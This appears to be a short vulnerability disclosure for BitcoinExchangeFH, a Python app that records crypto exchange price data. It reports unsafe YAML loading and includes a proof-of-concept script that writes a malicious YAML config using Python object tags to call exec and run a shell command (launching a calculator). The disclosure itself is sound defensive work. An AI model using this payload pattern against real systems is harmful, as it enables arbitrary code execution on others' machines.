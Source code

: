 # Description
BitcoinExchangeFH is a slim application to record the price depth and trades in various exchanges
* **Vulnerability description**
    Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept
Run exploit.py
```
import os
#os.system('pip install bitcoinexchangefh')
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
open('config.yml','w+').write(payload)
os.system('bitcoinexchangefh --configuration config.yml')
```
* `pip3 install bitcoinexchangefh`
* `python3 exploit.py`

# Impact
Arbitrary Code Execution
